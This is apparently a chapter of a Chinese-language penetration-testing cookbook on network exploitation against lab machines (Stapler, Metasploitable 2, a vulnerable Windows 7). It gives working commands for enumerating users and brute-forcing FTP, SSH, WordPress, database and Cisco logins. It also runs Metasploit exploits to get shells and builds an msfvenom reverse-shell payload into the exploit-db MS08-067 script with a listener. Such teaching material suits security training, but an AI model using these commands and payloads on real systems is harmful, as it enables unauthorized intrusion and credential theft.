# 第四章。网络利用

在本章中，我们将涵盖以下内容：

+   收集凭证破解的信息

+   使用自定义字典破解 FTP

+   使用自定义字典破解 SSH

+   使用自定义字典破解 HTTP

+   使用自定义字典破解 MySql 和 PostgreSQL

+   使用自定义字典破解 Cisco 登录

+   利用易受攻击的服务（Unix）

+   利用易受攻击的服务（Windows）

+   使用`exploit-db`脚本来利用服务

# 介绍

在上一章中，我们枚举了开放端口并搜索可能的漏洞。在本章中，我们将对网络上的系统进行渗透测试。为了演示目的，我们选择了一个名为**Stapler**的易受攻击的操作系统，由 g0tmi1k 制作。Stapler 可以在[`www.vulnhub.com/entry/stapler-1,150/`](https://www.vulnhub.com/entry/stapler-1,150/)下载。

除了 Stapler，我们还将简要介绍如何利用 Metasploitable 2 进行利用，这在上一章中已经简要介绍过。本章的目的是向读者介绍一些网络级攻击向量，并演示不同类型的攻击。让我们开始使用 Stapler，一个易受攻击的操作系统虚拟机，通过在虚拟机上加载镜像来开始。

# 收集凭证破解的信息

为了成功进行凭证破解，有可能用户名和密码列表是很重要的。其中一种可能的方式是利用 Kali Linux Distro 中可用的字典。这些位于`/usr/share/wordlists/`下。以下屏幕截图显示了 Kali 中可用的字典：


您将找到一个名为`rockyou.txt.gz`的文件，您需要解压缩。在终端中使用以下命令解压缩文件的内容：

```
gunzip rockyou.txt.gz

```

一旦完成，文件将被提取，如前面的屏幕截图所示。这是 Kali Linux 中可用密码的预构建列表。让我们开始利用枚举和信息收集来制定我们自己的密码之一。

## 准备工作

首先，我们将找到托管 Stapler 机器的 IP 地址，并开始枚举信息以收集和创建一组自定义密码。

## 如何做...

该配方的步骤如下：

1.  使用以下命令在子网上发现 Stapler 的 IP 地址：

```
    nbtscan (x.x.x.1-255)

    ```

输出如下屏幕截图所示：


1.  运行快速的`nmap`扫描以查找可用端口：

```
    nmap -sT -T4 -sV -p 1-65535 <IP address>

    ```

输出如下屏幕截图所示：



1.  连接到开放端口并收集有价值的信息；让我们枚举`ftp`、`Ssh`和`http`端口。以下是一系列收集和存储信息的方式。

**FTP 端口上的信息收集**：

我们通过输入用户名和密码`Ftp: ftp`来进入默认的匿名登录。

我们成功访问了登录并找到一个名为 note 的文件。下载后，我们得到了一些用户名。作为信息收集过程的一部分，这些用户名被存储在一个文档中。在下面的屏幕截图中可以看到相同的情况：


**SSH 上的信息收集**：

我们使用`ssh`客户端连接到 SSH，并收集信息如下屏幕截图所示：


我们找到了另一个可能的用户名。

**HTTP 上的信息收集**：

有很多种方式可以从 Web 应用程序中收集可能有用的单词。在 nmap 屏幕上，我们发现有一个端口`12380`，运行着一个 Web 服务器。访问并尝试检查`robots.txt`，我们发现了一些有趣的文件夹，如下屏幕截图所示：



访问`/blogblog/` URL 时，我们发现它是一个 WordPress 网站，因此我们将尝试枚举 WordPress 博客的可能用户名。

使用以下命令枚举 WordPress 用户：

```
     wpscan -u https://<IP address>:12380/blogblog/ --enumerate u

    ```

输出将如下屏幕截图所示：



**通过共享进行信息收集**：

在这里，我们将收集有助于建立潜在凭证列表的信息。让我们看看这是如何可能的。我们将在机器上运行`enum4linux`，使用以下命令：

```
    enum4linux <IP address>

    ```

输出将如下屏幕截图所示：


通过`enum4linux`进行共享枚举看起来与下面的屏幕截图类似：


这样做后，我们意识到有更多的用户名可用，因此，我们可以将它们添加到我们的用户名列表中。在进一步评估中，我们击中了大奖：服务器上可用的用户名。通过`enum4linux`进行 SID 枚举看起来与下面的屏幕截图类似：



+   现在，一个完整的用户名列表被制定并存储在用户名文件中，如下面的屏幕截图所示：


让我们对 Metasploitable 2 机器做同样的操作。在我们的测试实验室中，Metasploitable 2 机器托管在`192.168.157.152`。我们已经创建了一个自定义的`grep`，它将枚举用户的共享，并且只给出用户名作为输出：

```
    enum4linux <IP address> | grep "user:" |cut -d "[" -f2 | cut           -d "]" -f1

    ```

输出将如下屏幕截图所示：



完成后，将用户名保存在任何名称的文件中。在这种情况下，我们将其命名为`metasploit_users`。这可以通过使用以下命令重定向前面命令的输出来完成：

```
    enum4linux <IP address> | grep "user:" |cut -d "[  " -f2 |           cut -d "]  " -f1 > metasploit_users

    ```

有了这个，我们已经完成了信息收集的第一个步骤，以建立一个可信的凭证字典。在下一个步骤中，我们将看看如何利用这一点来攻击并尝试访问服务器。

# 使用自定义单词列表破解 FTP 登录

在这个步骤中，我们将学习如何攻击 FTP 以找到有效的登录。我们将使用前面信息收集步骤中生成的列表。

## 准备工作

对于这个步骤，我们将使用一个名为 Hydra 的工具。它是一个支持多种攻击协议的并行化登录破解器。Kali Linux 中有许多用于破解密码的工具；然而，Hydra 非常方便。现在我们有了 Hydra 和用户名列表，让我们开始攻击。

## 如何做...

1.  知道我们的用户名列表叫做`username`，确保终端指向用户名文件所在的路径。我们将在终端中运行以下命令：

```
    hydra -e nsr -L username <IP address> ftp

    ```

输出将如下屏幕截图所示：


1.  检查接收到的凭证是否有效：

我们连接到 FTP，如下面的屏幕截图所示：



我们已成功找到有效的凭证，并获得了服务器潜在用户的登录信息。

## 它是如何工作的...

正如你所看到的，我们在 Hydra 中使用了以下命令：

```
hydra -e nsr -L username <IP address> ftp 

```

让我们了解带有所有开关的脚本。`-e`开关有三个选项，`n`、`s`和`r`：

+   `n`：此选项检查空密码

+   `s`：此选项用于登录名作为密码

+   `r`：这是登录名的反向作为密码

`-L`检查是用来指定用户名列表的，`ftp`是指定的协议，应该对密码进行猜测攻击。

## 还有更多...

还有更多参数可以在不同类型的攻击场景中使用。以下是一些示例：

+   `-S`：用于通过 SSL 连接到端口

+   `-s`：用于指定要测试的协议的自定义端口，如果不是默认端口

+   -p：用于尝试特定密码

+   `-P`：用于指定密码文件列表

+   `-C`：这是一个以冒号分隔的文件；在这里，用户名和密码列表可以以冒号分隔的格式，例如，`user:pass`

如果您希望将用户名和密码存储在文件中而不是在终端中显示，可以使用`-o`选项，然后指定文件名，以输出内容。

# 使用自定义单词列表破解 SSH 登录

在这个教程中，我们将学习如何攻击 SSH 以找到有效的登录。我们将使用信息收集教程中生成的列表。

## 准备工作

对于这个教程，我们将使用三个工具，Hydra、Patator 和 Ncrack 来进行 SSH 密码破解。所有这些工具都可以在 Kali Linux 中找到。

正如 Patator Wiki 中所述，Patator 是出于对使用 Hydra、Medusa、Ncrack、Metasploit 模块和 Nmap NSE 脚本进行猜密码攻击的沮丧而编写的。所有者选择了不同的方法，以避免创建另一个密码破解工具并重复相同的缺点。Patator 是一个用 Python 编写的多线程工具，旨在比其前身更可靠和灵活。

关于 Ncrack 的一些信息：Ncrack 是一个高速网络认证破解工具。Ncrack 采用模块化方法设计，命令行语法类似于 Nmap，并且可以根据网络反馈调整其行为的动态引擎。它允许对多个主机进行快速而可靠的大规模审计。它支持大多数知名协议。

## 如何操作...

1.  我们将使用 Hydra 来破解 Stapler 上 SSH 服务的密码。在终端中输入以下命令：

```
    hydra -e nsr -L username <IP address> ssh -t 4

    ```

输出将如下截屏所示：


1.  也可以使用 Patator 进行检查；在终端中输入以下命令：

```
     patator ssh_login host=<IP address> user=SHayslett
    password-FILE0 0=username

    ```

输出将如下截屏所示：


1.  让我们验证一下找到的登录是否正确。我们已经成功登录，如下截屏所示：

1.  我们可以尝试使用从 Metasploitable 2 获得的用户；这次我们将使用`ncrack`命令来破解密码。让我们尝试找到`sys`账户的登录。在终端中输入以下命令，对我们的 Metasploitable 2 机器上的`sys`执行 SSH 密码破解攻击：

```
    ncrack -v --user sys -P /usr/share/wordlists/rockyou.txt       ssh://<IP address>

    ```

输出将如下截屏所示：


1.  如您所见，`sys`账户的密码已经被找到，登录成功：

## 工作原理...

我们使用了以下命令：

```
hydra -e nsr -L username <IP address> ssh -t 4
patator ssh_login host=<IP address> user=SHayslett password-FILE0     0=username
hydra -l user -P /usr/share/wordlists/rockyou.txt -t 4 <IP     address> ssh

```

让我们了解这些开关实际上是做什么的。

如前所述，`-e`开关有三个选项，`n`、`s`和`r`：

+   `n`：此选项检查空密码

+   `s`：这使用登录名作为密码

+   `r`：这是将登录名作为密码的反向

`-L`检查允许我们指定包含用户名的文件。`-t`开关代表任务；它并行运行连接的数量。默认情况下，数量为 16。这类似于线程概念，通过并行化获得更好的性能。`-l`开关代表特定的用户名，`-P`开关代表要读取的攻击文件列表。

让我们看看 Patator 脚本：

+   `ssh_login`：这是 Patator 的攻击向量

+   `host=`：这代表要使用的 IP 地址/URL

+   `user=`：这是用于攻击目的的用户名

+   `password=`：这是用于暴力攻击的密码文件

让我们看看 Ncrack 脚本：

+   `-v`：这个开关启用详细模式

+   `--user`：这个开关使我们能够提供用户名

+   `-P`：这是提供密码文件的开关

## 还有更多...

Patator 和 Ncrack 中有许多开关。我们建议您研究不同的协议和功能，并在我们在书中提到的易受攻击的机器上尝试它们。或者，更多信息可以在[`www.vulnhub.com/`](https://www.vulnhub.com/)找到。

# 使用自定义字典破解 HTTP 登录

我们看到 Stapler 在端口`12380`上运行了一个 Web 应用程序，其中托管了 WordPress。在这个教程中，我们将学习如何对 WordPress 的登录面板执行密码破解攻击。在这种情况下，我们将使用的工具是 WPScan。

## 准备工作

WPScan 是一个 WordPress 扫描器。它有许多功能，比如枚举 WordPress 版本、有漏洞的插件、列出可用的插件、基于字典的密码破解。

## 操作步骤...

1.  我们将首先使用枚举用户脚本枚举可用的 WordPress 登录。在终端中输入以下命令：

```
    wpscan -u https://<IP address>:12380/blogblog/ --enumerate u

    ```

输出将如下截屏所示：


1.  要开始破解密码，我们将从 Kali 中提供的可用字典中提供 wordlist 文件，例如`rockyou.txt`。在终端中输入以下命令：

```
    wpscan -u https://<IP address>:12380/blogblog/ --wordlist        /usr/share/wordlists/rockyou.txt  --threads 50

    ```

输出将如下截屏所示：


1.  让我们检查密码是否有效。访问登录页面：

```
    https://x.x.x.x:12380/blogblog/wp-login.php

    ```

输出将如下截屏所示：


## 它是如何工作的...

让我们了解前面命令中使用的开关：

+   `-u`：此开关指定要访问的 URL

+   `--wordlist`：此开关指定要用于破解的字典或密码列表

+   `--threads`：此开关指定要加载的线程数，以通过并行作业执行实现性能

## 还有更多...

WPScan 具有相当多的功能。它允许用户枚举安装的主题、插件、用户、timthumbs 等。在 WordPress 安装中使用其他可用命令来检查它们的功能总是一个好主意。

# 使用自定义字典破解 MySql 和 PostgreSQL 登录

在这个教程中，我们将看到如何访问 MySQL 和 Postgres 数据库。我们将使用 Metasploitable 2 易受攻击的服务器来执行攻击。

## 准备工作

在这个练习中，我们将使用 Metasploit 作为我们的模块来执行凭据攻击，因为我们已经在之前的教程中看到了其他工具的工作原理。让我们启动 Metasploit 控制台并开始利用 SQL 服务器。

## 操作步骤...

1.  一旦您进入 Metasploit 控制台，输入以下命令：

```
          use auxiliary/scanner/mysql/mysql_login
          set username root
          set stop_on_success true
          set rhosts <Target IP address>
          set pass_file /usr/share/wordlists/rockyou.txt
          exploit

    ```

输出将如下截屏所示：


1.  完成后，请等待脚本完成。在这种情况下，因为我们已经给出了一个停止成功的命令，一旦找到正确的密码，它将停止执行脚本。输出将如下截屏所示：

1.  现在让我们尝试破解 Postgres 凭据。在 Metasploit 终端中输入以下内容：

```
          use auxiliary/scanner/postgres/postgres_login
          set rhosts <Target IP address>
          run

    ```

扫描器将启动，并且任何成功的尝试都将以绿色突出显示。请查看以下截屏：


## 它是如何工作的...

我们向 Metasploit 框架提供信息，包括字典路径、用户名和其他相关信息。一旦完成，我们就可以运行并导致模块执行。Metasploit 启动模块并开始暴力破解以找到正确的密码（如果在字典中可用）。让我们了解一些命令：

+   `use auxiliary/scanner/mysql/mysql_login`：在这个命令中，我们指定了将提供用户名列表的`mysql`插件

+   `set stop_on_success true`：这基本上设置了一旦找到有效密码就停止脚本的参数

+   `set pass_file /usr/share/wordlists/rockyou.txt`：在这个命令中，我们指定了脚本要引用的密码文件，以执行攻击

如果在任何时候你不知道该做什么，你可以在 Metasploit 终端中发出`show options`命令。一旦设置了`use (plugin)`命令，它将提供执行脚本所需和非必需的参数。

## 还有更多...

Metasploit 是一个丰富的框架。建议查看其他扫描器模块和为基于 SQL 的服务器破解提供的选项。

# 使用自定义单词表破解思科登录

在这个教程中，我们将看到如何访问思科设备，我们将使用 Kali 中可用的工具。我们将使用一个名为 CAT 的工具来执行这个活动。CAT 代表思科审计工具。这是一个 Perl 脚本，用于扫描思科路由器的常见漏洞。

## 准备工作

为了进行这个练习，我们已经设置了一个带有简单密码的思科设备，以演示这个活动。我们不需要任何外部工具，因为一切都在 Kali 中可用。

## 如何做...

1.  我们在`192.168.1.88`上设置了一个思科路由器。如前所述，我们将使用`CAT`：

1.  我们使用了一个自定义的用户名和密码单词表，其中包含以下详细信息：

1.  一旦你进入 Metasploit 控制台，输入以下命令：

```
     CAT -h 192.168.1.88 -w /root/Desktop/cisco_users -a
    /root/Desktop/cisco_pass

    ```

输出将如下截图所示：


1.  正如你所看到的，它攻击服务以检查有效凭据，并且如果在单词列表中找到有效密码，则获取它。

## 工作原理...

我们使用了以下命令：

+   `-h`：这个命令告诉脚本设备的主机 IP

+   `-w`：这个命令告诉脚本要使用的用户列表来进行攻击

+   `-a`：这个命令告诉脚本要使用的密码列表来进行攻击

## 还有更多...

还有其他功能，比如`-i`，`-l`和`-q`，读者可以将其作为这个教程的练习来应用到思科设备上。

# 利用易受攻击的服务（Unix）

在这个教程中，我们将利用网络层的漏洞。这些漏洞是软件级别的漏洞。当我们谈论软件时，我们明确指的是使用网络/端口来运行的软件/包。例如，FTP 服务器，SSH 服务器，HTTP 等。这个教程将涵盖两种风格的一些漏洞，Unix 和 Windows。让我们从 UNIX 利用开始。

## 准备工作

我们将在这个模块中使用 Metasploit；确保在初始化 Metasploit 之前启动 PostgreSQL。我们将快速回顾一下我们在执行漏洞扫描时在 Metasploitable2 中发现的漏洞：

### 注意

IP 不同，因为作者已经更改了内部网络的 VLAN。

漏洞扫描输出将如下所示：



这个教程的先决条件是要知道你的 IP 地址，因为它将用于在 Metasploit 中设置 Lhost。让我们从这里选取一些漏洞，以了解易受攻击服务的利用是如何发生的。

## 如何做...

1.  启动 PostgreSQL，然后启动`msfconsole`：

```
          service postgresql start
          msfconsole

    ```

输出将如下截图所示：


1.  我们将利用`vsftpd`漏洞。在运行`msfconsole`的终端中输入以下内容：

```
          search vsftpd
          use exploit/unix/ftp/vsftpd_234_backdoor
          set rhost <Target IP Address>
          set payload cmd/unix/interact
          set lhost <Your IP Address>
          exploit

    ```

输出将如下截图所示：


1.  利用成功运行，并且我们已经进入了系统的根目录。让我们来看看我们在对 Metasploitable 2 进行漏洞评估扫描时发现的另一个漏洞。在终端中输入以下命令：

```
          search distcc
          use exploit/unix/misc/distcc_exec
          set payload cmd/unix/bind_perl
          set rhost <Target IP address>
          exploit

    ```

输出将如下截图所示：


## 工作原理...

Metasploit 是一个提供了很多功能的框架，从枚举、利用到帮助编写利用。我们上面看到的是 Metasploit 利用的一个示例。让我们了解一下在前面的`vsftpd`场景中发生了什么：

+   搜索 vsftpd：这将在 Metasploit 数据库中搜索与`vsftpd`相关的任何信息

+   `use (exploit)`: 这指定了我们想要准备执行的利用

+   `set lhost`: 这将设置我们机器的本地主机 IP 以获取一个反向 shell

+   `set rhost`: 这将设置目标 IP 以启动利用

+   `set payload (payload path)`: 这指定了在成功完成利用后我们想要执行的操作

## 还有更多...

Metasploit 还提供了社区版的图形界面版本。建议查看一下。可以在[`www.offensive-security.com/metasploit-unleashed/`](https://www.offensive-security.com/metasploit-unleashed/)找到使用 Metasploit 的详细指南。

# 利用有漏洞的服务（Windows）

在这个步骤中，我们将利用 Windows 中的有漏洞服务。为了理解这一部分，我们有一个运行着一些有漏洞软件的 Windows 7 系统。我们将进行快速枚举，找到漏洞，并使用 Metasploit 进行利用。

## 准备工作

为了开始利用，我们需要一个有漏洞的 Windows 操作系统。获取该机器的 IP。除此之外，我们还需要在**CLI**（**命令行界面**）中初始化 Metasploit 框架。我们已经准备就绪。

## 如何操作...

1.  一旦 Windows 7 镜像被下载，运行一个`nmap`扫描以找到可用的服务。在终端中运行以下命令：

```
    nmap -sT -sV -T4 -p 1-65535  <IP address>

    ```

输出将如下截屏所示：


1.  如你所见，远程机器上运行着三个有趣的软件；它们是`Konica Minolta FTP Utility ftpd 1.00`、`Easy File Sharing HTTP Server 6.9`以及运行在`16101`和`16102`端口上的服务。通过在 Google 上查找，可以发现它正在运行`Blue Coat 身份验证和授权代理`。我们检查`exploit-db`以查看它们中是否有任何一个有漏洞：

Konica Minolta FTP 有漏洞：


Blue Coat 身份验证和授权代理（BCAAA）有漏洞：


Easy File Sharing HTTP Server 7.2 也有漏洞。让我们看看它们是否可以被利用。

1.  我们将首先测试 FTP。在 Metasploit 控制台中输入以下命令开始：

```
          use exploit/windows/ftp/kmftp_utility_cwd
          set rhost <Target IP address>
          set payload windows/shell_bind_tcp
          exploit

    ```

输出将如下截屏所示：



1.  我们成功地得到了一个 shell。现在让我们测试 Easy File Sharing HTTP Server。在 Metasploit 终端中输入以下命令：

```
          use exploit/windows/http/easyfilesharing_seh
          set rhost <Target IP address>
          set payload windows/shell_bind_tcp
          exploit

    ```

输出将如下截屏所示：



1.  我们也成功地完成了这个：我们得到了一个 shell。现在，让我们检查最后一个软件，Blue Coat 身份验证和授权代理，看看它是否容易受到利用。在 Metasploit 终端中输入以下命令：

```
          use exploit/windows/misc/bcaaa_bof
          set rhost <Target IP address>
          set payload windows/shell_bind_tcp
          exploit

    ```

输出将如下截屏所示：



我们已成功利用了所有三个漏洞。这完成了这个步骤。

## 它是如何工作的...

我们之前已经看到了 Metasploit 如何用于利用。除了我们在之前的步骤中看到和使用的命令之外，没有使用新的命令。唯一的区别是调用`use`函数来加载给定的漏洞。

`set payload windows/shell_bind_tcp`命令是一个单一的载荷，没有涉及到多个阶段。在成功利用后，它会打开一个端口，等待连接的 shell。一旦我们发送了利用，Metasploit 就会访问打开的端口，然后我们就有了一个 shell。

## 还有更多...

有各种其他方法可以进入系统；在我们开始利用之前，确保进行适当的信息收集非常重要。有了这个，我们完成了我们的网络利用。在下一章中，我们将讨论后期利用。

# 利用 exploit-db 脚本来利用服务

在这个步骤中，我们将利用 Windows SMB 服务`ms08_067`，使用 Metasploit 框架之外的利用代码。渗透测试人员经常依赖 Metasploit 进行他们的渗透测试活动，然而，重要的是要理解这些是运行的自定义脚本，并且接受远程主机端口等动态输入。在这个步骤中，我们将看到如何调整漏洞脚本以匹配我们的目标并成功利用它。

## 准备工作

对于这个步骤，我们需要使用我们一直在测试的易受攻击的 Windows 机器，以及 Kali 机器本身提供的其余工具和脚本。

## 如何做...

1.  首先让我们看看如何使用`searchsploit`在`exploit-db`数据库中搜索`ms08-067`漏洞，使用以下命令：

```
    searchsploit ms08-067

    ```

输出将如下截图所示：


1.  我们可以看到有一个名为“Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067)”的 Python 脚本可用。现在我们读取 Python 文件的内容，文件路径是`/usr/share/exploitdb/platforms/windows/remote/40279.py`。在桌面上复制一份相同的文件。

1.  在阅读文件时，发现脚本使用了一个连接到不同 IP 和端口的自定义有效载荷：

1.  所以我们必须首先编辑代码，并将我们想要执行的有效载荷指向我们的 IP 地址和端口。为了做到这一点，我们将使用`msfvenom`创建我们的有效载荷，以便我们可以让这个脚本执行。在 Kali 终端上输入以下命令，为 Kali IP 创建一个用于反向连接的 Python shell 代码：

```
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali IP
    Address> LPORT=443 EXITFUNC=thread -b "x00x0ax0dx5cx5fx2f
    x2ex40" -f python -a x86

    ```

输出将如下截图所示：


1.  请注意，生成的有效载荷为 380 字节。复制生成的整个`buf`行，并将其粘贴到一个文件中，将单词`buf`重命名为`shellcode`，因为我们使用的脚本使用单词`shellcode`进行有效载荷传递。文本文件看起来像这样：

请注意我们已经删除了第一行，`buf = ""`。

现在我们需要非常小心：在 Python 脚本中提到他们的有效载荷大小为 380 字节，其余部分已填充 nops 以调整传递。我们必须确保相同，所以如果有 10 个 nops 和 380 字节的代码，我们假设有 390 字节的传递，所以如果我们生成的 shell 代码是 385 字节，我们只会添加 5 个 nops 以保持我们的缓冲区恒定。在目前的情况下，新的有效载荷大小也是 380，所以我们不需要处理 NOP。现在我们将用我们创建的新 shell 代码替换原始 shell 代码。因此，用新生成的 shell 代码替换以下突出显示的文本：


请注意，我们已经在`/x90` NOP 代码之后替换了整个 shell 代码。

1.  一旦代码被替换，保存并关闭文件。启动 Metasploit，并输入以下命令，在 Kali 机器上的端口`443`上启动监听器，就像我们创建有效载荷时提到的那样：

```
          msfconsole
          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set lhost <Kali IP address>
          set lport 443
          exploit

    ```

输出将如下截图所示：


1.  现在，一旦我们的处理程序启动，我们将执行 Python 脚本，并提到目标 IP 地址和操作系统。转到已编辑文件被复制的桌面，并执行 Python 文件。由于它存储在桌面上，执行以下命令：

```
    python 40279.py 192.168.1.11.1

    ```

输出将如下截图所示：


1.  一旦脚本执行完毕，请返回监听器，查看是否已收到连接：

太棒了，我们使用 `exploit-db` 上可用的脚本获得了远程 shell。

## 工作原理...

其中大部分已在步行说明中解释。这里介绍的新工具是 `msfvenom`。以下是所使用参数的解释：

```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3
LPORT=443 EXITFUNC=thread -b "x00x0ax0dx5cx5fx2fx2ex40"
-f python -a x86

```

+   `-p`：这是需要创建的 payload。

+   `LHOST`：主机，机器应连接到以进行利用。

+   `LPORT`：机器应连接到的端口以进行利用。

+   `-b`：这代表坏字符。它告诉脚本在生成 shell code 时避免使用所述字符。

+   `-f`：这说明了要创建的 shell code 的格式。

+   `-a`：这说明了目标机器的架构，利用将在其上执行。

## 还有更多...

这只是对如何编辑脚本以满足我们需求进行执行的基本理解。此活动旨在向读者介绍 shell code 替换的概念。`exploit-db` 上有许多与各种利用相关的脚本。
